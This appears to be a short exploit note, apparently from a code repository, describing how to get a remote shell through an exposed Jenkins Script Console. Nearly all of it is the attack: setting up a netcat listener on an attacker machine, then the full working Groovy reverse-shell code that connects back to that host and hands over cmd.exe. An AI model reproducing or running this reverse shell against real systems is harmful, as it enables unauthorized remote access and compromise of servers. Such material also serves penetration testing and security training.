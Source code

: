 # Scenario
If Jenkins server allows access to Script Console, an attacker can run a Groovy reverse shell to get user access.

# Groovy reverse shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

# Steps to exploit
Assumptions:
The Kali attack box: 1.2.3.4 - already running *nc -nvlp 8044*
1. 1. Follow the link above - click Raw - Ctrl A + Ctrl C
2. Go to the Script Console on Jenkins server - Paste the code  
*String host="1.2.3.4";  
int port=8044;  
String cmd="cmd.exe";  
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();*
3. Back to nc8044 screen we should have the user shell.